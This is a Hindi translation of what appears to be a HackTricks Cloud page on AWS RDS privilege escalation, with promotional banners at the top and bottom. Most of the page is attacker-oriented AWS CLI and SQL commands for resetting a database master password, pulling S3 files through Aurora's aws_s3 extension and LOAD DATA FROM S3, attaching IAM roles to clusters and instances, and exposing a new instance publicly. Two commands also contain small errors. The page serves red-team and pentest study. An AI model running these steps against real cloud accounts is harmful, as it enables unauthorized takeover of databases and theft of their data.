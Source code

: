 # AWS - RDS Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## RDS - Relational Database Service

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर **मास्टर यूजर का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन कर सकता है:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क** करने में सक्षम होना चाहिए (वे आमतौर पर केवल आंतरिक नेटवर्क से ही सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

### rds-db:connect

[**डॉक्स**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति वाला उपयोगकर्ता DB इंस्टेंस से जुड़ सकता है।

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक डेटाबेस मिलता है, तो आप जानते हैं कि आप **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

सबसे पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप इसे स्थापित एक्सटेंशन्स को देखकर जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आपको **`aws_s3`** जैसा कुछ मिलता है, तो आप मान सकते हैं कि इस डेटाबेस की **S3 पर किसी प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे कि **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि क्या **क्लस्टर में कोई IAM रोल जुड़ा हुआ है** फ़ील्ड **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस को **अन्य AWS सेवाओं तक पहुंच के लिए तैयार किया गया था**। **रोल के नाम** के आधार पर (या यदि आप रोल की **अनुमतियां** प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस की क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **raw AWS credentials** होते, तो आप उनका उपयोग S3 डेटा तक पहुँचने के लिए भी कर सकते थे:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql को S3 तक पहुँचने के लिए **किसी भी पैरामीटर ग्रुप वेरिएबल को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql के अंदर, यदि आप **`SELECT User, Host FROM mysql.user;`** क्वेरी चलाते हैं और वहाँ एक यूजर **`rdsadmin`** के नाम से है, तो आप मान सकते हैं कि आप **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

mysql के अंदर **`show variables;`** चलाएं और यदि वेरिएबल्स जैसे कि **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, में मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

साथ ही, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है तो आप जांच सकते हैं कि क्लस्टर में कोई **संबद्ध रोल** है या नहीं, जो आमतौर पर AWS सेवाओं तक पहुँच का संकेत देता है।

अब, एक बकेट के अंदर एक फाइल को **पढ़ने के लिए** आपको पूरा पथ पता होना चाहिए। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` अनुमतियां हैं, वह **मौजूदा RDS इंस्टेंस में एक निर्दिष्ट रोल जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुँचने** या इंस्टेंस के भीतर डेटा में संशोधन करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे कि Mysql, जिसे रोल ARN को पैरामीटर समूहों में भी निर्दिष्ट करना पड़ता है।

### `rds:CreateDBInstance`

केवल इस अनुमति के साथ एक हमलावर **क्लस्टर के अंदर एक नया इंस्टेंस** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM रोल** जुड़ा हुआ है। वह मास्टर यूजर पासवर्ड बदलने में सक्षम नहीं होगा, लेकिन वह नए डेटाबेस इंस्टेंस को इंटरनेट के लिए उजागर कर सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` अनुमतियां होती हैं, वह **निर्दिष्ट भूमिका के साथ एक नया RDS इंस्टेंस बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच सकता है** या इंस्टेंस के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
जोड़ने के लिए भूमिका/इंस्टेंस-प्रोफाइल की कुछ आवश्यकताएँ ( [**यहाँ से**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफाइल आपके खाते में मौजूद होना चाहिए।
* प्रोफाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 धारण करने की अनुमति हो।
* इंस्टेंस प्रोफाइल का नाम और संबंधित IAM भूमिका का नाम `AWSRDSCustom` प्रीफिक्स से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

अनुमतियों `rds:AddRoleToDBInstance` और `iam:PassRole` वाला हमलावर **मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुँच** मिल सकती है या इंस्टेंस के भीतर डेटा में संशोधन करने की क्षमता मिल सकती है।

{% hint style="warning" %}
DB इंस्टेंस को क्लस्टर के बाहर होना चाहिए इसके लिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS इंस्टेंस में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत परिवर्तन।

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
